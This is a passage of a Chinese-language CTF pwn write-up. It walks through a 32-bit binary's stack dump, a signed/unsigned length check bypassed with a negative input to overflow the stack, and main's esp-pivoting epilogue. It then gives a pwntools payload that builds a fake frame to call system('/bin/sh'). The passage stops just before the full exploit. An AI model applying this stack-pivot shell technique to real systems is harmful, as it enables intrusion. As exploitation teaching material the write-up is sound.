 ```
0xffffcf30│+0x0030: 0xf7fb1000  →  0x001b1db0
0xffffcf34│+0x0034: 0xf7fb1000  →  0x001b1db0
0xffffcf38│+0x0038: 0xffffcfc8  →  0x00000000 <= main函数的ebp地址
0xffffcf3c│+0x003c: 0xf7e65005  →  <setbuf+21> add esp, 0x1c <= libc地址
0xffffcf40│+0x0040: 0xf7fb1d60  →  0xfbad2887
0xffffcf44│+0x0044: 0x00000000
0xffffcf48│+0x0048: 0x00002000
0xffffcf4c│+0x004c: 0xf7e64ff0  →  <setbuf+0> sub esp, 0x10
0xffffcf50│+0x0050: 0xf7fb1d60  →  0xfbad2887
0xffffcf54│+0x0054: 0xf7ffd918  →  0x00000000
0xffffcf58│+0x0058: 0xffffcfc8  →  0x00000000	 ← $ebp

```

然后考虑如何劫持控制流。这里注意，虽然在检查长度时会强制转换为有符号数，但是在read函数传参时仍旧把nbytes当作无符号数，所以如果输入负数，就可以绕过长度检查，实现任意长度的栈溢出。

```c++
	nbytes = read_num();
  if ( (signed int)nbytes > 63 )
  {
    puts("Too long!");
    exit(1);
  }
  printf("Enter password(lenth %u): ", nbytes);
  v1 = fileno(stdin);
  read(v1, &buf, nbytes); <= IO2BO
```

但是main函数返回的栈桢操作比较特殊，在main函数返回之前的汇编语句如下：

```
.text:08048735                 mov     eax, 0
.text:0804873A                 lea     esp, [ebp-8]
.text:0804873D                 pop     ecx
.text:0804873E                 pop     ebx
.text:0804873F                 pop     ebp
.text:08048740                 lea     esp, [ecx-4]
.text:08048743                 retn
```

首先令esp指向ebp-8处，然后分别pop三次给ecx, ebx和ebp，最后将esp指向ecx-4处，然后retn，也就是将eip转到ecx-4处开始执行代码。所以我们需要在ebp-8处布置栈，令esp和ebp均指向我们构造的栈桢处。直接看exp

```python
	payload = p32(system) # [ebp - 0x4c]
	payload += p32(main) # fake ebp of system [ebp - 0x4c + 4]
	payload += p32(stack_addr - 0x4c + 12) # arg1:the addr of /bin/sh [ebp - 0x4c + 8]
	payload += "/bin/sh\x00" # [ebp - 0x4c + 12]
	payload = payload.ljust(0x4c - 0x8 , "a") # padding to [ebp - 8]
	payload += p32(stack_addr - 0x4c + 4) # ecx = target_addr + 4
	payload += "aaaa" # ebx
	payload += p32(stack_addr - 0x4c + 4) # fake ebp
```

最终完整的exp如下：
